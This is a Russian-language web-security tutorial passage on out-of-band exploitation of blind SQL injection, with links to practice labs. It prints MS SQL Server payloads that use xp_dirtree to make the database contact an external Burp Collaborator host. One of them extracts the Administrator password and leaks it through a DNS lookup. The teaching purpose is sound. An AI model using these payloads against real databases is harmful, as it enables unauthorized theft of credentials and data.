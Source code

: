 Приложение может выполнить тот же SQL-запрос, что и в предыдущем примере, но делать это асинхронно. Приложение продолжает обработку запроса пользователя в исходном потоке и использует другой поток для выполнения запроса SQL с использованием файла cookie отслеживания. Запрос по-прежнему уязвим для SQL-инъекций, но ни один из описанных выше методов не работает. Ответ приложения не зависит от запроса, возвращающего какие-либо данные, возникновения ошибки базы данных или от времени, затраченного на выполнение запроса.

В этой ситуации часто можно воспользоваться уязвимостью слепого внедрения SQL-кода, инициировав внешнее сетевое взаимодействие с системой, которой вы управляете. Их можно активировать на основе введенного условия для вывода информации по частям. Еще более полезно то, что данные могут быть удалены непосредственно в рамках сетевого взаимодействия.

Для этой цели можно использовать различные сетевые протоколы, но, как правило, наиболее эффективным является DNS. Многие производственные сети допускают бесплатное выход запросов DNS, потому что они необходимы для нормальной работы производственных систем.

Самый простой и надежный инструмент для использования внеполосных методов — Burp Collaborator. Это сервер, который предоставляет индивидуальные реализации различных сетевых служб, включая DNS.

Методы запуска DNS-запроса зависят от типа используемой базы данных. Например, следующий ввод в Microsoft SQL Server можно использовать для запуска поиска DNS в указанном домене:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Это заставляет базу данных выполнить поиск следующего домена:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

#### Лаба
[[Лаборатория слепая инъекция SQL с внеполосной взаимодействием]]

Подтвердив способ запуска внеполосных взаимодействий, можно использовать канал вне полосы для эксфильтрата данных из уязвимого приложения. Например:
```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Этот ввод считывает пароль для `Administrator` Пользователь добавляет уникальный поддомен сотрудников и запускает поиск DNS. Этот поиск позволяет просмотреть захваченный пароль:
`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Методы внеполосной (OAST) являются мощным способом обнаружения и эксплуатации слепых инъекций SQL из-за высокой вероятности успеха и способности непосредственно эксфильтратировать данные в пределах канала. По этой причине методы OAST часто предпочтительны даже в ситуациях, когда работают другие методы слепой эксплуатации.

#### Лаба
[[Лаборатория слепая инъекция SQL с внеполосной эксфильтрацией]]